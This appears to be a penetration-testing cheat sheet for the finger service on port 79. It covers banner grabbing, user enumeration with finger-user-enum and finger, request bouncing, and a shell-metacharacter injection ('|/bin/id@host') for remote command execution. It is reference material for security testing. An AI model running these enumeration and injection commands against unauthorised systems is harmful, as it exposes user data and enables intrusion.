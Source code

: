 # Finger (79)

**what is finger**

Finger is primarily used to enumerate user information on the target system. It can also find out detailed information (if exists) such as full name, email address, phone number etc. of all its users.

**Default port:**
 79


**Banner Grabbing**

## Telnet
````
telnet $ip 79
````

## Netcat 
````
nc -nv $ip 79

````

## Enumeration

**finger-user-enum**

https://github.com/pentestmonkey/finger-user-enum

````
finger-user-enum is a script used to enumerate users

````
#### Using finger-user-enum

```
1. Displaying help

# perl finger-user-enum.pl -h

2. enumerate a single user

-u = user

-t = host IP

# perl finger-user-enum.pl -u root -t 10.10.10.76

3. Enumerate users using a list

# perl finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76

4. Using a list of IPs

# perl finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -T IP_list.txt

5. Using another port than default 79

# perl finger-user-enum.pl -p 8000 -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76

6. Showing detailed output

# perl finger-user-enum.pl -d -u root -t 10.10.10.76
```
## Using finger
````
man finger

 -s        Finger displays the user's login name, real name, terminal name

 -l        Produces a multi-line format displaying all of the information described for the -s option as well as the user's
           home directory, home phone number, login shell, mail status, and the contents of the files “.plan”, “.project”,
           “.pgpkey” and “.forward” from the user's home directory.

2. enumerate a known user. In this case root

# finger -s root@10.10.10.76

3. Show the home directory of the user

# finger -sl root@10.10.10.76
 
````
#### finger Enum Script

````
for q in 'root' 'admin' 'user' '0' "'a b c d e f g h'" '|/bin/id';do echo "FINGER: $q"; finger "$q@10.0.0.3"; echo -e "\n";done

````
## Finger Zero 
````
fingerd may respond to finger 0@<host> with information on some user accounts.

# finger 0@10.0.0.3

````

## Finger ‘a b c d e f g h’
````
fingerd may respond to 'a b c d e f g h'@<host> with information on all accounts.

finger 'a b c d e f g h'@10.0.0.3
````
## Finger Bouncing

````
finger can be used to relay a request to a different host as if it were sent from that machine.

# finger @10.0.0.3@10.10.10.4

# finger root@10.0.0.3@10.10.10.4
````
## Command Execution
````
fingerd allows remote command execution through shell metacharacters.

# finger "|/bin/id@10.0.0.3"
````

# Links of the sources
[https://0xffsec.com/handbook/services/finger/#fn:3]

